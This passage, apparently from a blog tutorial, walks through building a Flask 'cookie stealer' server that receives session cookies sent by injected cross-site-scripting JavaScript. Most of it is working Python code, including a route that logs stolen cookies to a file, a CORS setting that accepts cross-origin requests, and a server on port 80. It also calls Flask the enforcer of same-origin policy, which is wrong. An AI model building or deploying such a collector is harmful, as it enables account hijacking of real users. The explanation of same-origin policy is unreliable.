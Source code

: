 This presents us with a problem, because Flask strictly enforces _Same Origin Policy_.


> . . . same-origin policy is an important concept in the web application security model. Under the policy, a web browser permits scripts contained in a first web page to access data in a second web page, but only if both web pages have the same origin. An origin is defined as a combination of URI scheme, hostname, and port number. This policy prevents a malicious script on one page from obtaining access to sensitive data on another web page through that page's Document Object Model.
> -- <cite>[Wikipedia](https://en.wikipedia.org/wiki/Same-origin_policy)</cite>

Flask does not provide a simple interface to disable _Same Origin Policy_. This means that we'll have to monkey patch Flask to enable our cookie stealing Javascript to talk to our cookie storing server. Fortunately, the Flask-CORS module that we installed using pip does all of the monkey patching for us. 

To disable Flask's same origin policy using Flask-CORS, we just add the following line to our no-redirect.py file.

{% highlight python %}

# disable Flask's same origin policy
CORS(app)

{% endhighlight %}

Our Flask object is instantiated and has been patched to accept cross origin requests. We now add a route handler for the main page:

{% highlight python %}

@app.route('/')
def index():
    cookies = request.args.get('cookies')
    with open('cookies.txt', 'a') as fd:
        print cookies
        fd.write(cookies)
    return render_template('index.html', cookies=cookies)

{% endhighlight %}

The code shown above tells Flask that any HTTP requests to our cookie stealer should be handled by the function named index(). Our index() function first stores any cookies passed as request parameters, and writes them to 'cookies.txt'. It then sends 'index.html' as an HTTP response, causing it to be displayed on the page. 

Finally, we add the following line of code that to our script to launch our server.

{% highlight python %}

# run cookie stealer server
app.run(host='0.0.0.0', port=80)

{% endhighlight %}

{% highlight python %}
from flask import Flask, request, render_template
from flask.ext.cors import CORS

app = Flask(__name__)
app.debug = True

CORS(app)

@app.route('/')
def index():

    cookies = request.args.get('cookies')
    with open('cookies.txt', 'a') as fd:
        print cookies
        fd.write(cookies)